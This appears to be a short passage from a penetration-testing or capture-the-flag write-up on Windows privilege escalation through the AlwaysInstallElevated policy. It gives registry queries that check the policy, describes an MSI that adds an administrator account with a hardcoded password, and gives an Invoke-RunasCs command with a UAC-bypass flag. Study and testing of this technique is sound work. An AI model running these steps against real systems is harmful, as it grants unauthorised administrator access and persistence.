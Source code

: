 ### Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use `Invoke-RunasCs` to get code execution as the newly created amit user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
